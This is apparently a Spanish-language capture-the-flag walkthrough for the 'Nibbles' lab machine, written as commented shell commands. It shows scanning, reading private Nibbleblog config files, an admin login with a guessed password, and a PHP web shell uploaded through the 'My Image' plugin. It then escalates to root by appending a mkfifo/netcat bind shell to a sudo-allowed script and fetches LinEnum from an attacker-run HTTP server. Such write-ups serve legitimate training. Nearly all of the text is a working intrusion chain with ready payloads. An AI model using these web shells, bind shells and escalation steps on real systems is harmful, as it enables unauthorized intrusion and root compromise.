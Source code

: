 # Buscamos puertos comunes abiertos
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190

# Buscamos todos los puertos abiertos
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190

# Banner grabbing mietras se termina lo anterior
nc -nv nibbles_ip 22
nc -nv nibbles_ip 80

# Mas informacion sobre los puertos abiertos
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190

# Mas informacion usando un script de nmap 
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 

# Buscar info de la web app que esta corriendo
whatweb 10.129.42.190

# Revisando el codigo fuente de la pagina web se encontro la pagina
10.129.42.190/nibbleblog

# Buscamos directorios posibles en esta pagina
gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

# Insepeccionamos informacion encontrada
curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -

# En el primer curl se encontro que hay un usuario "admin" que usamos para entrar a la pagina
# ip_nibbles/admin.php con la contrasena "nibbles" (brute force).

# Una vez dentro, en la pestana de Plugins encontramos el plugin "My Image" mediante el cual podemos
# subir un archivo con el fin de establecer una reverse shell. Utilizamos el archivo "shell.php" con el codigo
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f"); ?>

# Luego, encontramos que "shell.php" se ubica en el directorio (encontramos /content con gobuster)
http://10.129.132.220/nibbleblog/content/private/plugins/my_image

# Ahora ejecutamos la bind shell
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php/

# Y nos conectamos desde cualquier terminal en el puerto 1234 (porque este especificamos en shell.php)
nc ip_nibble 1234

# Obtenemos una shell tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
ENTER ENTER


## PRIVILEGE SCALATION ##
#
# Nos descargamos el siguiente archivo 
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

# Levantamos un server de python para poder descargarlo en la target
python3 -m http.server 
wget http://10.10.14.99:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Encontramos lo siguiente
 [+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

# Lo que significa que podemos ejecutar monitor.sh como root.
# Vamos a crear una bind shell desde ese archivo y ejecutarlo como root
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1235 >/tmp/f" | tee -a /home/nibbler/personal/stuff/monitor.sh
sudo ./monitor.sh

# Finalmente, desde nuestra VM, nos conectamos y obtenemos la root flag
nc nibbles_ip 1235
cat /root/root.txt

# :)

